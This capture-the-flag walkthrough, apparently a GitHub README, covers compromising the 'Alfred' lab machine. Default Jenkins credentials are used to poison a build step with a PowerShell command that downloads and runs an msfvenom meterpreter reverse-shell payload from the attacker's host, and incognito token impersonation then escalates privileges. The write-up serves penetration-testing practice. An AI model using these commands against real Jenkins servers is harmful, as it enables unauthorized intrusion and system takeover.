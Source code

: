 
# Alfred

*note: For this walkthrough, $TARGET is a bash variable holding the IP address of the target machine.*

## Enumeration

The first step to determining how to exploit the target is to enumerate it.  To begin, we will run an nmap scan using the following command:

```bash
nmap -A -Pn -p- -oN nmap/initial $TARGET
```

Output:

```bash
PORT STATE SERVICE VERSION

80/tcp open http Microsoft IIS httpd 7.5

| http-methods:

|_ Potentially risky methods: TRACE

|_http-server-header: Microsoft-IIS/7.5

|_http-title: Site doesn't have a title (text/html).

3389/tcp open ms-wbt-server?

| ssl-cert: Subject: commonName=alfred

| Not valid before: 2023-05-19T19:14:20

|_Not valid after: 2023-11-18T19:14:20

|_ssl-date: 2023-05-20T21:01:58+00:00; -1s from scanner time.

8080/tcp open http Jetty 9.4.z-SNAPSHOT

| http-robots.txt: 1 disallowed entry

|_/

|_http-server-header: Jetty(9.4.z-SNAPSHOT)

|_http-title: Site doesn't have a title (text/html;charset=utf-8).

Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port

Aggressive OS guesses: Microsoft Windows Server 2012 R2 (90%), Microsoft Windows Server 2008 (90%), Microsoft Windows Server 2008 R2 (90%), Microsoft Windows Server 2008 R2 or Windows 8 (90%), Microsoft Windows 7 SP1 (90%), Microsoft Windows 8.1 Update 1 (90%), Microsoft Windows 8.1 R1 (90%), Microsoft Windows Phone 7.5 or 8.0 (90%), Microsoft Windows 7 or Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 or 2008 Beta 3 (89%)

No exact OS matches for host (test conditions non-ideal).

Network Distance: 4 hops

Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Right away, we can see that three ports are open: `80`, `3389`, and `8080`.

### Webpage

Navigating to port 80, we see a "RIP Bruce Wayne" page, and nothing interesting in the HTML source. We can note two things on the page: 1) Bruce Wayne (possible system user) and 2) alfred@wayneenterprises.com (useful in future?).

![web1](../media/pictures/alfred_web1.jpg)

Gobuster and Nikto do not come up with anything fruitful either, so it appears as if port 80 is a dead end.

Gobuster:

```bash
gobuster dir -u http://$TARGET -w raft-large-words-lowercase.txt
```

Nikto:

```bash
nikto -h http://$TARGET -output nikto/http_scan.txt
```

### Jenkins

Since port 80 did not come up with anything particularly useful, we can move onto port 8080. Navigating to `http://$TARGET:8080` in a web browser displays a Jenkins login page. 

![jenkins1](../media/pictures/alfred_jenkins1.jpg)

As always, we will try default credentials first. The most common default credentials are `admin:admin` and when we try them, we are redirected to a dashboard.

![jenkins2](../media/pictures/alfred_jenkins2.jpg)

There is one project (cleverly named "project") we are allowed to interact with in this Jenkins dashboard.  

![jenkins3](../media/pictures/alfred_jenkins3.jpg)

Since we can "Configure" the project, we can set "Build Commands". Manipulating the build commands will allow us a foothold on the target machine. 

![jenkins4](../media/pictures/alfred_jenkins4.jpg)

Currently, the `whoami` command is being executed upon building the project, but we can make this project pull down and execute a meterpreter payload, giving us access to the machine. 

To create the meterpreter payload, we can use the following command (replacing `<MYIP>` with your IP address and `<MYPORT>` with the port you want the shell to communicate with your computer on):

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe LHOST=<MYIP> LPORT=<MYPORT> -o rev.exe --platform windows -a x64
```

After the payload has been generated, we will need to spin up a simple file server so the target can reach out and pull down the payload. We can do this with Python3 using the command:

```bash
python3 -m http.server <SRVPORT>
```

*note: make sure `<SRVPORT>` and `<MYPORT>` are different.*

After that, we need to open `msfconsole` in a different terminal window and run the following commands:

```bash
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost <MYIP>
set lport <MYPORT>
run
```

Now that the payload and listener are all staged an awaiting execution, we can poison the build.  We are going to have the target execute a powershell command to pull down our payload and execute it. We can replace `whoami` with the following:

```bash
powershell iex (New-Object Net.WebClient).DownloadFile('http://<MYIP>:<MYPORT>/revshell.exe','revshell.exe');
revshell.exe;
```

The command above instructs powershell to reach out to our C2 server and pull down the `revshell.exe` file we generated using `msfvenom` and save it to `revshell.exe` in the local directory (this name and location can be chaned to any place the service account has write access to, `C:\Public` is gnerally a safe target on Windows). The second line instructs the target to execute the reverse shell file, opening a meterpreter session with our machine. After we hit save and select "Build Now", the payload should be downloaded and the meterpreter session opened.

Once we have a foothold via meterpreter session, we can navigate to `C:\Users\bruce\Desktop` and `cat user.txt` to get the first flag.

## PrivEsc

Now that we have a foothold on the target as `bruce`, we can begin to elevate our privileges. First, lets take a look at the Windows privileges we currently have using `getprivs` in meterpreter.  There are two main privileges that stick out: `SeDebugPrivilege` and `SeImpersonatePrivilege`. 

![privesc1](../media/pictures/alfred_privesc1.jpg)

Using the `incognito` module, we can take advantage of the impersonate privilege.  To use the module, enter `load incognito` into the meterpreter session and hit enter.  After the module has been loaded, we can see what users or groups we can impersonate using `list_tokens -u` and `list_tokens -g`. After running `list_tokens -g` we see that we can impersonate `BUILTIN\Administrators`.  Now, we can run `imersonate_token "BUILTIN\Administrators"` and eleveate our privileges to a local admin. 

![privesc2](../media/pictures/alfred_privesc2.jpg)

We can confirm we have `NT AUTHORITY\SYSTEM` privileges by migrating to a process that is running as `NT AUTHORITY\SYSTEM`.  A stable process to migrate to is `lsass.exe`. To get the PID to migrate to, enter `ps lsass` and hit enter.  We can then migrate to it using `migrate <PID>`.

![privesc3](../media/pictures/alfred_privesc3.jpg)

Now that we have confirmed our escalation, the only thing left to do is grab the root flag from `C:\Windows\System32\config`. 


## Automated Foothold

The process of logging in, poisoning the build, and uploading a payload has been automated in [this Goland program](exploit.go).  The only thing the user needs to do is generate a payload (using msfvenom) for the target to pull down and setup a meterpreter listener. The program will reach out to the target, login, create a new authenticated session, poison the build command with the powershell script and kick off the build, giving the attacker a foothold on the target without ever having to interact with it through the web-browser.